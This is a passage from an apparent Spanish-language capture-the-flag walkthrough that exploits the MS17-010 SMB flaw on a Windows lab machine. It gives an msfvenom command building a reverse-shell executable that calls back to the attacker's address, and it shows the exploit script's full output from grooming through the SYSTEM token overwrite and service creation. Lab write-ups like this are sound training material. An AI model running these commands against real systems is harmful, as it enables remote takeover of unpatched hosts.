 ```bash
 ❯ python checker.py 10.10.10.4
  Trying to connect to 10.10.10.4:445
  Target OS: Windows 5.1
  The target is not patched
  
  === Testing named pipes ===
  spoolss: Ok (32 bit)
  samr: STATUS_ACCESS_DENIED
  netlogon: STATUS_ACCESS_DENIED
  lsarpc: STATUS_ACCESS_DENIED
  browser: Ok (32 bit)
```

Tal como podemos ver, los nombres de pipe que podemos utilizar son los de status **OK**, en este caso `spoolss` y `browser`.

Para poder tener éxito, es necesario generar una reverse shell por medio de la utilidad `msfvenom` con nuestra dirección IP y puerto de escucha para obtener posteriormente la shell denominada `reverseShell.exe`

```bash
  ❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4564 -f exe -o reverseShell.exe
```

Ahora que tenemos el pipe y la reverse shell generada, procedemos a ejecutar el script de explotación `send_and_execute.py` para cargar y ejecutar el payload.

```bash
  ❯ python send_and_execute.py 10.10.10.4 reverseShell.exe 445 spoolss
  Trying to connect to 10.10.10.4:445
  Target OS: Windows 5.1
  Groom packets
  attempt controlling next transaction on x86
  success controlling one transaction
  modify parameter count to 0xffffffff to be able to write backward
  leak next transaction
  CONNECTION: 0x8652bce0
  SESSION: 0xe239f1c8
  FLINK: 0x7bd48
  InData: 0x7ae28
  MID: 0xa
  TRANS1: 0x78b50
  TRANS2: 0x7ac90
  modify transaction struct for arbitrary read/write
  make this SMB session to be SYSTEM
  current TOKEN addr: 0xe23d7468
  userAndGroupCount: 0x3
  userAndGroupsAddr: 0xe23d7508
  overwriting token UserAndGroups
  Sending file 850ZDK.exe...
  Opening SVCManager on 10.10.10.4.....
  Creating service rhVR.....
  Starting service rhVR.....
  The NETBIOS connection with the remote host timed out.
  Removing service rhVR.....
  ServiceExec Error on: 10.10.10.4
  nca_s_proto_error
  Done
```
